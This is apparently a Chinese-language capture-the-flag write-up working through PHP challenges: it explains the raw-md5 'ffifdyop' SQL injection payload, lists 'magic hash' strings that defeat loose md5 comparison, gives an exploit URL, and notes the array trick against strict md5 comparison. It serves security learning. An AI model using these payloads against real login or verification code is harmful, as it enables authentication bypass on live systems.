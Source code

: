 ![image-20250917201057760](assets/image-20250917201057760.png)

- **`md5(string, true)`**: 这是关键！第二个参数被设置为 `true`。这意味着 `md5()` 函数将返回**原始16字节的二进制格式**的哈希值，而不是我们通常看到的**32字节十六进制数字的字符串**。

- **通常用法（`false` 或省略）**: `md5('abc')` 返回 `'900150983cd24fb0d6963f7d28e17f72'`（一个字符串）。
- **此处用法（`true`）**: `md5('abc', true)` 返回一串二进制数据，如果将其解释为字符串，看起来会是乱码，类似于 `'\x90\x01P\x98<\xD2O\xB0\xD6\x96?}(\xE1\x7Fr'`。

SQL注入：

我们的目标是找到一个输入 `$pass`，使得 `md5($pass, true)` 的结果**看起来像** `'<some_string>' OR '1'='1` 这样的形式。

#### 经典的Payload：`ffifdyop`

- **计算**: `md5('ffifdyop', true)`
- **二进制结果**: `'\x27\x6f\x72\x27\x32\x37\x3a`...`（后面部分不重要）`
- **当MySQL将这个二进制序列解释为字符串时**，开头部分恰好是：`'or'<trash>` (这里的 `<trash>` 是一些不可打印的字符，但在SQL中可能被忽略或视为true)。

跳转到：levels91.php

![image-20250917201500333](assets/image-20250917201500333.png)

这些md5之后都会是0exxxxx 会被当做科学计数法进行弱比较 相等

```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
```

```
/levels91.php?a=QNKCDZO&b=240610708
```

跳到了/levell14.php

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

数组的md5是null

![image-20250917202031844](assets/image-20250917202031844.png)
